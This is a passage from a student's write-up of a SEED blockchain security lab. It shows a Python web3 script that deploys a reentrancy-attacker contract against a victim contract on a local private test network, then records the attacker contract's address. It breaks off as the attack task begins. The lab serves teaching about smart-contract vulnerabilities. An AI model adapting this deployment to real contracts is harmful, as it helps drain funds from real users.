 We edited `Labsetup/attacker/deploy_attack_contract.py` to include the victim contract’s address:

```python
#!/bin/env python3

from web3 import Web3
import SEEDWeb3
import os

abi_file        = "../contract/ReentrancyAttacker.abi"
bin_file        = "../contract/ReentrancyAttacker.bin"
victim_contract = '0xaf98236bcb084ADc949f43d647eb4045260b31F3'

# Connect to our geth node
web3 = SEEDWeb3.connect_to_geth_poa('http://10.151.0.71:8545')

# We use web3.eth.accounts[1] as the sender because it has more Ethers
sender_account = web3.eth.accounts[1]
web3.geth.personal.unlockAccount(sender_account, "admin")
addr = SEEDWeb3.deploy_contract(web3, sender_account,
                        abi_file, bin_file, victim_contract)
print("Attack contract: {}".format(addr))
with open("contract_address_attacker.txt", "w") as fd:
    fd.write(addr)
```

And ran:

```bash
cd Labsetup/attacker/
python3 deploy_attack_contract.py
```

The address of the deployed attacker contract was noted for the next steps.

```
Attack contract: 0xE4f431062358923783bc63Ba7bC0BF232AFd9f99
```

![Attacker Address Output](./images/lab6/6.png)

---

## Task 3 – Launching the Reentrancy Attack

### Step 3.1 – Check Initial Balances
